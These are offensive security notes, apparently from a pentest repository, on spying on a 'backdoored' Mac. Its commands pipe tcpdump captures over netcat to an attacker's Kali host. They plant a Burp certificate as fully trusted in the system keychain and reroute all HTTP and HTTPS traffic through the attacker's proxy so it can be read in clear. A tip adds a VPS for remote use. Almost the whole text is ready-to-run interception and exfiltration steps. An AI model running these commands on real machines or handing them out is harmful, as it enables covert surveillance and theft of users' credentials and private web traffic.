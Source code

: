 # Netcat & TCPDump:

## Data in file:

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic:

	- nc -l -p 7777 | tee /tmp/sniffed_output.pcap (on kali, without -p for mac)
	- /usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)

## Data in real time:

On kali:

	- mkfifo /tmp/wiretap
	- nc -l -p 9999 > /tmp/wiretap
	- wireshark -k -i /tmp/wiretap

On mac:

	- /usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

## Sniffing https traffic (BURP):

Download BURP Pro and execute file (optional):

	- sudo bash /path/to/file

Open and configure proxy on burpsuite (port and ip).

On backdoored mac:

	- curl -s --insecure --proxy http://192.168.0.110:8080 http://burp/cert -o /tmp/burp.der (download certificate)

In the above command, curl will silently (-s) download the certificate from our Kali machine. The --proxy argument is required because we're instructing curl to use the newly configured Burp listener to fetch the certificate; This certificate isn't trusted by curl (or any web browser) by default, so the --insecure argument is required to ignore warnings in the output. Finally, the Burp certificate is saved (-o) to the /tmp directory with the file name burp.der. The .der file extension is merely the certificate's default file format and shouldn't be changed.

	- security add-trusted-cert -k /Library/Keychains/System.keychain -d /tmp/burp.der (add certificate to mac keychain)

Security will add (add-trusted-cert) and fully trust the certificate (-d /tmp/burp.der) into the macOS primary system Keychain (-k). All we have to do now is configure macOS to send us all of the target's web traffic.

List network services (optional):

	- /usr/sbin/networksetup -listallnetworkservices
	- /usr/sbin/networksetup -getwebproxy "Wi-Fi"
	- /usr/sbin/networksetup -getsecurewebproxy "Wi-Fi"

Active the certicate for http and https requests:

	- /usr/sbin/networksetup -setwebproxy "Wi-fi" 192.168.0.110 8080
	- /usr/sbin/networksetup -setsecurewebproxy "Wi-fi" 192.168.0.110 8080

Then in Burp, in HTTP history, all the traffic appear in clear.

We can send the encoded URL parameters in encoders, choose URL format, to decode parameters if necessary.

PortSwigger CA certificate are certificate created from Burp, can search it on keychain. Also can verify proxy configuration on system preference, network, on mac.

## Use caffeinate to force keep the connection open:

	- caffeinate &

## Desactive the certificate for http and https:

	- /usr/sbin/networksetup -setwebproxystate "Wi-fi" off
	- /usr/sbin/networksetup -setsecurewebproxystate "Wi-fi" off

Can use a VPS to use this technic if we are not in the same network.